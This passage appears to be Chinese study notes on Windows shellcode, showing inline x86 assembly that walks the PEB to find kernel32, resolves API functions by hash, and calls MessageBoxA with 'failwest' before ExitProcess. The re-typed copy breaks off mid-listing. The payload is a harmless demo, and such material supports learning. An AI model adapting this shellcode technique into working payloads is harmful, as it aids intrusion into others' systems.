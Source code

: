 ```C
			popad           ;restore registers loop until we reach end of last hash
			                ;出栈顺序EDI，ESI,EBP,ESP,EBX,EDX,ECX,EAX
			cmp eax,0x1e380a6a
			jne find_lib_functions
		function_call:
			xor ebx,ebx
			push ebx ;cut string
			push 0x74736577
			push 0x6C696166 ;push failwest
			mov eax,esp ;load address of failwest
			push ebx
			push eax
			push eax
			push ebx
			call [edi - 0x04] ;call MessageboxA
			push ebx
			call [edi - 0x08] ;call ExitProcess
			nop
			nop
			nop
			nop


	}

}
```

我自己从写了一遍：
```C++
void main(){
    _asm{
        start:
            NOP
            NOP
            NOP
            NOP
            NOP
            NOP
            NOP
            CLD ;clear Direct flag

        push_strhash:
            PUSH 0x1e380a6a     ;"MessageBoxA"'s hash ,search end condition
            PUSH 0x4fd18963     ;"ExitProcess"'s hash
            PUSH 0x0c917432     ;"LoadLibrary"'s hash
            MOV ESI, ESP        ; ESI = pointer to  0x0c917432 and ESI is a loop index
            LEA EDI, [ESI-0x0c] ; prepare to store 3 functions' address ,and EDI is a loop index
            XOR EBX,EBX
            MOV BH,0x04
            SUB ESP, EBX        ; expand 400 bytes stack space 
            PUSH 0x00003233     ;"32" ASCII
            PUSH 0x72657375     ;"user" ASCII
            PUSH ESP            ;"user32" pointer
            XOR EDX, EDX        ; clear EDX

        locate_kernel32:
            MOV EBX, fs:[EDX + 0x30]    ;get PEB pointer   maybe 7ffd9000 
            MOV ECX, [EBX+0x0c]   ;get LDR pointer   maybe 00241ea0
            MOV ECX, [ECX+0x1c]   ;get InInitializationOrderModuleList pointer ,aka first list entry: ntdll.dll 00241f58
            MOV ECX, [ECX]        ;get second list entry pointer
            MOV EBP, [ECX+0x08]   ;set EBP = kernel32.dll pointer     
            
```
